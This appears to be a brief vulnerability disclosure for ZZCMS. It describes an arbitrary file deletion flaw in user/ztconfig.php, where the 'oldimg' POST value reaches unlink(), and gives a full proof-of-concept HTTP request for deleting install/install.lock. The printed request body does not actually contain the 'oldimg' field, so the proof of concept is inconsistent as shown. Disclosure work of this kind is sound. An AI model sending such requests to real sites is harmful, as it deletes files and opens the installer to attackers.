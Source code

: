

##user/ztconfig.php


Vulnerability：
![image](https://github.com/P0rZ9/ZZCMS/blob/master/5.jpg)

There is unlink($f) to delete any file by controlling the value of $f

##Control $f：
$oldbannerbg=isset($_POST["oldimg"])?$_POST["oldimg"]:'';


##Delete install/install.lock:

POST /user/ztconfig.php?action=modify HTTP/1.1
Host: 127.0.0.1:85
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://127.0.0.1:85/user/ztconfig.php
Cookie: xxxxxx
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 232

swf=1.swf&bannerheight=0&comanestyle=center&comanecolor=%23FFFFFF&daohang%5B%5D=%E7%BD%91%E7%AB%99%E9%A6%96%E9%A1%B5&daohang%5B%5D=%E6%8B%9B%E5%95%86%E4%BF%A1%E6%81%AF&tongji=&baidu_map=&Submit2=+%E6%9B%B4%E6%96%B0%E8%AE%BE%E7%BD%AE

![image](https://github.com/P0rZ9/ZZCMS/blob/master/6.jpg)


##delete install/install.lock successfully
![image](https://github.com/P0rZ9/ZZCMS/blob/master/7.jpg)

